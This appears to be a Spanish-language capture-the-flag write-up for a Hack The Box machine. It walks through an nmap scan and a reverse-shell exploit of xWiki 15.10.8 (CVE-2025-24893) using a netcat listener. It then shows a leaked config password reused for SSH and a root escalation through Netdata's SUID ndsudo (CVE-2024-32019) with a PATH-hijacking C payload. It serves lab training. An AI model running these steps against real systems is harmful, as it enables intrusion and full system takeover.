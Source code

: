 #xWiki #RCE #SUID

## Reconocimiento
Empezamos la maquina realizando un reconocimiento de puertos y servicios con [[NMAP]]:
`nmap -sS -p- --open --min-rate 5000 -n -Pn -vvv 10.10.11.80 -oG allPorts`

Encontramos los puertos `22, 80, 8080`

Añadimos la maquina al fichero `/etc/hosts`

Navegamos al puerto `80` por la web y encontramos que en el apartado `Docs` nos redirige a `wiki.editor.htb` para poder verlo correctamente lo volvemos a añadir al `/etc/hosts`

Navegando en la web de `http://wiki.editor.htb/xwiki/bin/view/Main/` vemos que la versión de `xWiki` es la `15.10.8`

Buscamos en internet información sobre esta versión y encontramos que es vulnerable a RCE, usamos el exploit de GitHub `https://github.com/Bishben/xwiki-15.10.8-reverse-shell-cve-2025-24893`
el cual nos explica como explotarlo.

## Explotación
Para explotarlo necesitamos ponernos primero en escucha con [[NETCAT]] en un puerto de nuestra maquina `nc -nlvp 4444`

Después deberemos ejecutar el Python 
`python3 cve-2025-24893.py <target_base_url> <lhost> <lport>`

En nuestro listenner obtendremos una Shell como `xWiki`

## Escalada de Privilegios
Si navegamos al directorio `/home` vemos que hay un usuario `Oliver`, para poder pivotar a el, buscaremos información en los archivos de configuración de `xWiki`

Estos ficheros de configuración se encuentran en `/usr/lib/xwiki/WEB-INF` exactamente miraremos el archivo `hibernate.cfg.xml`
En este archivo filtraremos por la palabra `password`
`cat hibernate.cfg.xml | grep "password"` encontramos una línea que nos indica la siguiente contraseña `theEd1t0rTeam99`

Probamos a conectar por SSH al usuario `Oliver` con `ssh oliver@10.10.11.80`
Confirmamos que las credenciales son `oliver::theEd1t0rTeam99`

Ahora tenemos que escalar privilegios a `root`
Probamos a ver que programas podemos ejecutar como root con `sudo -l`
y no nos otorga ninguna información

Probamos con los permisos SUID `find / -perm -4000 2>/dev/null`
Encontramos este fichero `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo`
Buscamos información sobre el en internet y descubrimos que es una herramienta diseñada para ejecutar programas con privilegios elevados, encontramos también un POC de escalada de privilegios y lo seguimos paso por paso `https://github.com/AzureADTrent/CVE-2024-32019-POC`

En nuestra maquina atacante crearemos un fichero `nano nvme.c`
Con el siguiente contenido
```C
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

Este script crea una bash privilegiada en la carpeta actual

Lo compilaremos en nuestra maquina atacante `gcc -o nvme nvme.c` y nos lo compartimos a nuestra maquina victima, en esta le damos permisos de ejecución.

Configuramos el PATH en `/tmp` con `export PATH=$(pwd):$PATH`
Después solo deberemos ejecutar `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list` Y seremos el usuario `root`